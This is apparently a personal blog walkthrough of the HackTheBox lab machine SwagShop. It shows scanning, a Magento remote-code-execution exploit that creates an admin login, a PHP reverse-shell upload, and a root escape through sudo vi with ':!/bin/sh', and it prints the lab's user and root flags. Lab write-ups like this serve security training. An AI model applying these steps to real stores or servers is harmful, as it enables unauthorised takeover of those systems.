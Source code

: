 ```yaml
---
layout: post
author: msameer234
description: "HackTheBox machine - SwagShop - walkthrough"
---
```

<br />
+=============+<br />
SCANNING<br />
+=============+<br />
 nmap 10.10.10.140<br />
	PORT   STATE SERVICE<br />
	22/tcp open  ssh<br />
	80/tcp open  http

+================+<br />
ENUMERATION<br />
+================+

 Website hosted on port 80/http --- SwagShop -- Shoping Site<br />
	Using Magento CMS --- found it by wappalyzer.<br />
	<br />
	Found RCE of Magento: <br />
		command used: searchsploit Magento<br />
			Magento eCommerce - Remote Code Execution  <br />
			/usr/share/exploitdb/exploits/xml/webapps/37977.py<br />
	Copy the exploit and edit it, then set your target: <br />
		e.g. target = "http://10.10.10.140/index.php/"<br />
	and save it.<br />
	<br />
	Now execute it as:<br />
		python exploit.py<br />
		it creates an admin account with username "forme" and password "forme":<br />
		Now login at : http://10.10.10.140/index.php/admin -->> Found this by Dirbuster<br />
		I tried to upload php shell, but I couldn't.<br />
		Then I found a way to create a new product-- added an option that asks user to upload a file with extension .php<br />
	<br />
	Now make an order of the created product and upload the file php-reverse-shell.<br />
	And start multi-handler of uploaded shell on msfconsole<br />
<br />
	Here you can access your uploaded shell on server: <br />
		http://10.10.10.140/media/custom_options/order/p/h/<br />
		found media folder by dirbuster.. then did some search after uploading the shell..<br />
		Set up listener and get the reverse_shell.<br />
<br />
	Now navigate to /home/haris/<br />
<br />
	there is user.txt fie which contains user flag: a448877277e82f05e5ddf9f90aefbac8<br />
<br />
+=========================+<br />
PRIVILEGE-ESCALATION<br />
+=========================+<br />
<br />
Type Command:<br />
	sudo -l and hit enter<br />
Output:<br />
	Matching Defaults entries for www-data on swagshop:<br />
    		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin<br />
<br />
	User www-data may run the following commands on swagshop:<br />
    		(root) NOPASSWD: /usr/bin/vi /var/www/html/*<br />
<br />
	<br />
Here we found we can access all files from "/var/www/html/" directory and vi text editor from "/usr/bin/" directory with root privileges.<br />
<br />
lets create a tty first as it is not there:<br />
python3 is installed:<br />
the command is: <br />
	python3 -c 'import pty;pty.spawn("/bin/sh")'<br />
<br />
Now, lets edit any file from /var/www/html/ directory with vi using sudo:<br />
<br />
cd /home/haris<br />
<br />
sudo vi /var/www/html/../../../etc/sudoers<br />
<br />
Now to enter into Command Mode and execute the command /bin/sh type in    :!/bin/sh     and hit enter<br />
<br />
and we got root..<br />
<br />
Navigating to /root/ directory..<br />
cd /root<br />
cat root.txt<br />
c2b087d66e14a652a3b86a130ac56721<br />
<br />
   ___<br /> ___
 /| |/|\| |\<br />
/_| ´ |.` |_\           We are open! (Almost)<br />
  |   |.  |<br />
  |   |.  |         Join the beta HTB Swag Store!<br />
  |___|.__|       https://hackthebox.store/password<br />
<br />
                   PS: Use root flag as password!<br />

<br />
And we got flag in root.txt file: c2b087d66e14a652a3b86a130ac56721
<br />
Finish..!!!<br />
<br />
